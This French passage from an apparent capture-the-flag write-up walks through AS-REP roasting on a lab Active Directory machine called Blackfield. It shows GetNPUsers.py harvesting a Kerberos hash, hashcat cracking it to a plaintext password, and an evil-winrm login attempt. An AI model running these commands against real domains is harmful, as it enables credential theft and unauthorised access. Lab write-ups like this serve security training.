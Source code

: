 Heureusement cette vulnérabilité est patchée par défaut sur tous les déploiements Active Directory : seul un compte qui a le mot de passe peut demander un TGT au KDC. Le client doit chiffrer un timestamp avec des crédentiels valides avant de l'envoyer au KDC.

Quand on créé un compte sur un Domain Controller, on peut s'affranchir de cette protection en activant l'option "Do not require Kerberos Preauthentication". Par défaut cette option est désactivée. Cependant, si le domaine contient des comptes avec cette option activée, un attaquant a la possibilité de forcer les mots de passe des comptes concernés.

#### Utiliser GetNPuser.py pour obtenir un tgt

https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

Le script [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) peut être utilisé depuis une machine Linux dans le but de récolter les réponses non-preauth AS_REP.

	kali@kali:~/blackfield$ GetNPUsers.py blackfield.local/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast -dc-ip 10.10.10.192
	Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation
	
	[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
	[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
	...
	[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
	...
	[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set


On a le hash du compte _support_.

	kali@kali:~/blackfield$ cat hashes.asreproast 
	$krb5asrep$23$support@BLACKFIELD.LOCAL:8a4bc807c01099cd37198c419c0f6541$0171ea5c1d9cccdbfb6f7d7942fbbd553dab5bd5a724fcebe58c6aaa82a2b967a31f5441bafe3a4827a3c2acf92d686f43497828ac33000b98a823caa656e555dacb1173ecc866dbdcafef0a0f5a4a91b73ba60d15bd5282574f11363df3f65bd28b58308b099a19a8503779e2bc672897b74c948f0130b655c1787b2d93993508ff3281a49986591d54f1ccfc3e40564de65270215bb5bc66cbc8623351cfdde06f4f96ce4350814e8b12ebbaf0ca5e4c617efaf80b1913d52ad544fb7115bb63c856dbb962802f0a281617726a7f21b9adaf18edbb7512bf41ad1bebc3c358a55cf9a5748baf9ca9e68eccad203ec8f20a38f1

Pour casser le hash obtenu, j'utilise hashcat et une attaque par "dictionnaire".

	kali@kali:~/blackfield$ hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt 
	...
	$krb5asrep$23$support@BLACKFIELD.LOCAL:8a4bc807c01099cd37198c419c0f6541$0171ea5c1d9cccdbfb6f7d7942fbbd553dab5bd5a724fcebe58c6aaa82a2b967a31f5441bafe3a4827a3c2acf92d686f43497828ac33000b98a823caa656e555dacb1173ecc866dbdcafef0a0f5a4a91b73ba60d15bd5282574f11363df3f65bd28b58308b099a19a8503779e2bc672897b74c948f0130b655c1787b2d93993508ff3281a49986591d54f1ccfc3e40564de65270215bb5bc66cbc8623351cfdde06f4f96ce4350814e8b12ebbaf0ca5e4c617efaf80b1913d52ad544fb7115bb63c856dbb962802f0a281617726a7f21b9adaf18edbb7512bf41ad1bebc3c358a55cf9a5748baf9ca9e68eccad203ec8f20a38f1:#00^BlackKnight
	...

En moins de 3 minutes, le mot de passe du compte : `#00^BlackKnight`

Connexion Evil-Winrm impossible avec le compte support.

	kali@kali:~/blackfield$ evil-winrm -i 10.10.10.192 -u blackfield\support -p#00^BlackKnight
